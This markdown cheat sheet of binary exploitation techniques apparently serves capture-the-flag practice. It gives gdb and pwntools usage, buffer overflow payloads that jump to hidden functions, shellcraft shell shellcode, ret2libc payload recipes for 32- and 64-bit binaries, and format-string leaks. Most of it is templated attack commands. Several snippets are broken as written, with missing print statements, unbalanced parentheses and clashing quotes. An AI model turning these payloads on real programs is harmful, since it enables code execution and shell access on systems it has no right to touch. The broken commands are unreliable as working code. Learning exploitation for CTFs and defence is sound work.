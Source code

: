 # Binary Exploitation

## Check Program File's Security
`checksec --file=<file>`

## Dynamic Analysis with gdb
### List Functions
`info functions`
### Disassemble Function
`disass <function-name>`
### Setting Breakpoint at Specific Line in Function
`break *<function-name>+<offset>`
### Check Value of Register
`x $<register-name>`
### Change Value of Register
`set *<address> = <new-value>`
### To Find How Many Bytes are Needed for a Buffer Overflow
`cyclic 100` to generate a string
Pass the string the program and check which part of the string get leaked in the register and copy that value then:
`cyclic -l <value-copied>`

### gdb Script Skeleton
```python
from pwn import *

exe = '<path-to-program-file>'
elf = context.binary = ELF(exe, checksec = False)

io = process(exe) # if the program is not local, io = remote('<domain/ip-address>', <port-number>)

# if the program requires to pass hex bytes:
# for 32-bit programs:
# payload = b'a' * 28 + p32(<hex-bytes>)
# for 64-bit programs:
# payload = b'a' * 28 + p64(<hex-bytes>)

io.sendlineafter(b'<delimiter-to-send-after>', b'<payload-to-send>')

io.interactive()
```

## Buffer Overflow with Python 2
If you know that the program has a buffer with only a certain number of characters that can be handled, you can use `python2` to generate a string of characters that will cause a buffer overflow, write that string to a file, and redirect that file into the program.
Ex: The program called `exampleapp` has a buffer of 16 bytes that is vulnerable to buffer overflows. There is a hidden function that contains the flag you are looking for but that function is never called. Use buffer overflow to reach that function with the following steps:
	1. Use `gdb` to find the address of the hidden function (e.g., `0x08049182`).
	2. Use `python2` to generate a string with 16 bytes + the address of the function and write it to a file (`python2 -c '"A" * 16 + "\x82\x91\x04\x08"' > payload`).
	3. Run the program and redirect the file containing the buffer overflow string to it (`./exampleapp < payload`)
You can also pass a file in `gdb` with `run < payload`.

## 64-Bit Buffer Overflow to Call a Hidden Function
`python2 -c 'print "A" * <buffer-size> + <hidden-function-address> + <pop-rdi-address> + <function-param1> + <pop-rsi-address> + <function-param2>'`

## Injection Assembly Instructions
### Generating Assembly Instructions with Shellcraft
`pwntools` has a package names `shellcraft` that can be used to generate assembly instrucitons for shell payloads.
`shellcraft i386.linux.sh -f a` command generates assembly instructions for a 32-bit program linux shell to be injected.
You can use `pwntools` and `shellcraft` within a `Python` script to generate the assembly and inject it into the target process.

## Returnin to libc (use if NX enabled on the binary and it is dynamically linked)
### Local Exploitation
#### Find libc Library Base Address
If `ASLR` is enabled then the address will be different each time.
`ldd <binary>`
### 32-bit
#### Locally Stop ASLR
You can turn off ASLR if the exploitation is happening on your local system.
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` (default value was 2)
#### Get Offset of System in libc Library
`readelf -s </lib/i386-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep system`
#### Get Offset of "/bin/sh"
`strings -a -t x </lib/i386-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep "/bin/sh"`
#### Calculate HEX Values for Offsets
##### system HEX
`python3 -c "from pwn import *; print(flat(<system-offset> + <libc-offset>)))"`
##### /bin/sh HEX
`python3 -c "from pwn import *; print(flat(<binsh-offset> + <libc-offset>))"`
#### Generate Payload
`python2 -c 'print "A" * <cyclic-offset> + "<system-hex>" + "<return-address-can-be-0x0>" + "<binsh-hex>"'`
### 64-bit
Follows a lot of the same steps except the way arguments are passed to functions. In 64-bit arguments are passed through `rdi` and `rsi` registers instead of directly on the stack.
#### Get Offset of libc system 64-bit
`readelf -s </lib/x86_64-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep system`
#### Get Offset of "/bin/sh" 64-bit
`strings -a -t x </lib/x86_64-linux-gnu/libc.so.6 OR output-from-ldd-above> | grep "/bin/sh"`
#### Finding `rdi`
Take the memory address of the output from the following command.
`ropper --file <binary> --search "pop rdi"`
##### `pop rdi` HEX
`python3 -c "from pwn import *; elf = context.binary = ELF("./<binary-name>", checksec=False); print(flat(<pop-rdi-address>))"`
**Note: If the instruction contains more than just the target register you need to account for that with `\x00`s**
#### Calculate HEX Values for Offsets
##### system HEX
`python3 -c "from pwn import *; elf = context.binary = ELF("./<binary-name>", print(flat(<system-offset> + <64bit-libc-offset>)))"`
##### /bin/sh HEX
`python3 -c "from pwn import *; elf = context.binary = ELF("./<binary-name>", print(flat(<binsh-offset> + <64bit-libc-offset>))"`
#### Generate Payload
`python2 -c 'print "A" * <cyclic-offset> + "<pop-rdi-hex>" + "<binsh-hex> + <system-hex>"'`

## Format String Vulnerabilities
If the program uses some C function that accepts format specifiers and the program does not specify the format expected for the user input, we can inject specifiers to get information off the stack.
### Useful Specifiers
- `%p`: Get value of pointer
- `%x`: Get values in HEX
- `%10$x`: Get 10th value from the stack in HEX
- `%10$s`: Get the 10th value from the stack in string representation.
